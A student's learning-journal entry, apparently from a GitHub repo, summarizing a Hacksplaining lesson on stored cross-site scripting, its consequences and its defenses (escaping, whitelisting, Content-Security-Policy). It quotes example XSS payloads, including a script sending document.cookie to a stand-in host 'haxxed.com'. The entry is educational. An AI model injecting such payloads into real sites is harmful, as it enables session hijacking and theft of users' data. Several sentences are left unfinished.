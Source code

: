# Entry #2: Learning Cross-site Scripting and A Realization  
For this week, I have moved on onto another topic, which is called Cross-site Scripting. While doing so, I came across 

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Cross-site Scripting](https://www.hacksplaining.com/exercises/xss-stored). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward. 
<img src=../images/meaning-of-circles.lnk> 

## Cross-site Scripting 
What is this? Cross-site scripting is method a method that allows users to add to a site’s content, which can possibly lead to injection of malicious JavaScript.  

#### Demonstration 
**_Circle 2_**

If your website has the ability to facilitate discussions between users commenting, then those conversations/comments need to be saved to a database to show yourself and others users.  

**_Circle 3_** 

As the popularity of your site increases, attackers get more and more attracted. 

**_Circle 4_**

By being careful with HTML, it can prevent hackers from abusing the comment section through the usage of malicious JavaScript (example).   

**_Circle 5_**

Mal (the hacker) tries to mess with me (user) by using this: ```<script>alert('Your croissants are limp and sad.')</script>```. This leads to a message popping up in the user’s laptop/computer, which only user gets to see.  

**_Circle 6_**

From having a real attack, a person’s cookies could be stolen, allowing the hackers to have a period of time to hijack.  

Code used for this sections: ```<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>```
* ```<script> </script>```: Script tags 
* 

**_Circle 7_**
Making a comment be liked by fake people → ```<script>upvote()</script>```     

### Signs of Danger   
The level of damage can vary depending on the sensitivity that your data has.  

#### Ways To Attack: 
* Spreading [worms](https://www.hacksplaining.com/glossary/worms) on social media sites. 
    * Worm → malicious program that can multiply itself and can leak into other systems. User can be a victim to this if mistakenly downloaded or executed some thing that was thought to be something else.   
    * [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (computer worms) a.k.a JS.Spacehero, created by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar)    
        * Fastest virus spread of all time (in MySpace) → 1,000,000+ ran the [payload](https://en.wikipedia.org/wiki/Payload_(computing))  
        * User looks at an infected profile page → payload gets copied + injected into the other user’s profile page 
        * Happened to known social media websites → Facebook, Twitter, and YouTube  
* Hijacking (stealing something while it is in action) a session 
    * Hacker uses JavaScript → have the session ID sent to a site that is under his/her control + pretend to be the user.  
* Theft 
    * Identity theft → Entering confidential info into a website that has been messed with → details can be stolen through JavaScript 
    * Stealing sensitive data (ex: passwords) 
    * Financial fraud on banking websites 
* Denial of Service Attacks ([DOS attack](https://www.hacksplaining.com/glossary/denial-of-service-attacks)) and  website vandalism 
    * Goal of attack: Flood a website service/website → making it unavailable 
    Online application have “limited bandwidth” → will be made unavailable if there is a bunch of dangerous “traffic” → involves many different fake IP addresses → “making them much harder to defeat”   
    * Solution → “properly configured firewall”  
    * Other resources: 
        * [Denial of Service Attacks](https://www.hacksplaining.com/exercises/denial-of-service-attacks) (lesson from Hacksplaining)  
        * [How to stop a DDOS attack](https://blog.fastmail.com/2015/12/08/how-to-stop-a-ddos-attack/)     

#### Protection
**_Dynamic Content_**    
* Web pages → HTML + dynamic content sewn in 
* [Stored XSS attacks](https://www.google.com/search?q=Stored+XSS+attacks&oq=Stored+XSS+attacks&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8) → dynamic content is not set up well from the “backend data store” 
* Attacker → uses the advantage of “editable field” → inputting JavaScript code → executed  
* If your site is not one where you manage content → it is rare for you to have your users use raw HTML 
* “ coming from a data store” → so that the browser knows that it should be labeled as the contents of HTML, and not raw HTML 
    * “coming from a data store” → that is connected to your 
* Escape all dynamic content by replacing significant characters with HTML ones 

Significant Characters | HTML “Characters”
-----------------------|------------------------
          “            |       &#34
      Octothorp(#)     |       &#35
          &            |       &#38
          ‘            |       &#39
          (            |       &#40
          )            |       &#41
          /            |       &#47
          ;            |       &#59
          <            |       &#60
      Greater sign (>) |       &#62

* “Most modern framework will escape dynamic content by default” 
* Escaping editable content → make the browser never look at the code as executable → closes the chances of XSS attacks  

**_Whitelist Values_**  
* Condition → a certain dynamic data item can only handle a “handful” of valid values → try to limit the values in the “data store” + have your logic-checker only allow good values that are known of already 
* Their example → instead of asking for a person to type in the country that he/she lives in, ask him/ her to pick it from a drop-down list 

**_Content-Security Policy_** 
* Modern browsers support content-security policies → permits the programmer of a webpage to have say in where JavaScript and other sources be shown 
* XSS attacks → from hackers/attackers using malicious scripts on a website → by using script tags in HTML tags or “trick the browser into loading the JavaScript from a malicious third-party domain”. 
* Putting a content security policy in the “response header” → tells browse to never run “inline JavaScript” + (“lock down”/) make note of which domains can run JavaScript 
    * ```Content-Security-Policy: script-src 'self' https://apis.google.com```      
* Content security policy can be set in 

### Realization/Next Steps 
While I have been learning, I have been using only one website so far, which is [Hacksplaining](https://www.hacksplaining.com/lessons). With every lesson that I go through, I try to take note of everything, which takes a long time because it seems like every topic has a lot to it already. In order to progress faster, a method that I try to use would be the following: whenever I start a new topic, just read through it first. After doing so, I should decide how extensive my note should be on this particular topic. 



